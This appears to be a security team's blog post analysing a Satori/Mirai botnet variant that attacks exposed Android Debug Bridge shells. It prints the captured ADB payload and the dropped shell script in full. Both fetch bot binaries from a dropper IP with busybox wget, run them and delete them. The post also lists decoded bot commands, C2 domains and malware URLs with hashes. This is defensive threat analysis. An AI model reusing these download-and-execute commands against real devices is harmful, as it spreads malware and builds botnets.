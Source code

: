 ```yaml
---
title: Satori/Mirai botnet detected
description: Variant of Satori/Mirai detected attacking public available ADB shells
header: Variant of Satori/Mirai detected attacking public available ADB shells
---
```


On the 10th of July at 23:30 UTC we noticed an increased traffic on our [blackhole monitoring](http://sicherheitstacho.eu/start/main) on TCP port 5555. Upon further analyzation, we saw a big chunk of this traffic coming from China, USA and the Dominican Republic. In total we gathered **246.434 packets** from **68.361 unique IPs**. Based on the packet details we gathered, we can assume that the packets were generated by a lot of different devices. In addition, the traffic behavior on port 555 matches the typicall scan behavior of botnets.

<!--more-->

![]({{"/assets/images/adb-botnet-g1.png"|absolute_url}})

### Inspecting the payload and stumbling on old friends

The payload registered and captured by out T-Pot honeypots (35.204) looks like this:

```
CNXN 2 host::OPEN ]+shell:>/sdcard/Download/f && cd /sdcard/Download/;
>/dev/f && cd /dev/; busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

The first chars of this payload are Android Debug Bridge (ADB) commands, used for initiating a connection to a debug channel. This connection is then used to execute a shell command.

Let's examine the command:

```
>/sdcard/Download/f && cd /sdcard/Download/;
```

Short shell builtin for clearing (or touching) the file `>/sdcard/Download/f` and changing to this folder.

```
>/dev/f && cd /dev/;
```

Same as above, just with a different file (and folder).

```
busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

Download `adbs` from dropper server, execute it and remove it. The `rm` is used to cover up tracks and only keep the bot/malware in memory.

Searching for this IP reveals it was already [detected some time ago](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/) in correlation to the Satori botnet.

### Analyzing the dropped file

The downloaded `adbs` shellscript looks like this:

``` 
#!/bin/sh

n="arm.bot.le mips.bot.be mipsel.bot.le arm7.bot.le x86_64.bot.le i586.bot.le i686.bot.le"
http_server="95.215.62.169"

for a in $n
do
    cp /system/bin/sh $a
    >$a
    busybox wget http://$http_server/adb/$a -O -> $a
    chmod 777 $a
    ./$a
done

for a in $n
do
    rm $a
done
```

This is a simple script to download the malware compiled for different architectures and execute them (all one by one). Dirty approach -- but works.

### Another variant of Satori?

Having a deeper look at the downloaded binaries, this looks like another modified version of Mirai or Satori, adjusted to exploit public available ADB devices. Heading over to VirusTotal, only five engines detect this binary (ELF;Mira-RQ) until now. First date of detection: 2018-07-09 09:20.

![]({{"/assets/images/adb-botnet-vt.png"|absolute_url}})

We can find the same `table_unlock` function mentioned in the [previous linked blog article](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/), indicating a variant or at least code shared between the two. Compare this screenshot from the blog post:

![]({{"/assets/images/adb-botnet-tableUnlock2-360.png"|absolute_url}})

With what we can find in the new binary:

![]({{"/assets/images/adb-botnet-tableUnlock2.png"|absolute_url}})

As usualy seen in a Mirai bot, strings are "encrypted" with a simple XOR. Decrypting with `0x31` leads to the following results:

```
LOLNOGTFO – kills bot [1]
KILLATTK - kills any ongoing attacks [1]
GETSPOOFS - ???
GAYFGT – sth. reporting related? [1]
```

And the following domains:
```
i.rippr.cc -> 95.215.62.169 (TXT record)
p.rippr.cc -> 180.101.204.161 (TXT record)
```

[1] Similar commands found [here](http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html) on a  blog.

## Files

```
1. http://95.215.62.169/i686.bot.le - 1eddee13762d7996c02b4c57fa3f8ffc
2. http://95.215.62.169/arm.bot.le - d01f194c374eebb9235291e34bc0d185
3. http://95.215.62.169/arm7.bot.le - d10c1591aee800a5f37f654f1ecd20a8
4. http://95.215.62.169/x86_64.bot.le - 4e4fc7e7599e5bd07e097a2f313486fe
5. http://95.215.62.169/mips.bot.be - a18b0d1401305588107e58054e6aa2ab
6. http://95.215.62.169/mipsel.bot.le - 9689cc9fe613b735fa1d386dffcdd6d8
7. http://95.215.62.169/i586.bot.le - 61f0bad58d28e73d1ef29b9574d28e41
```

## References

* http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/
* http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html


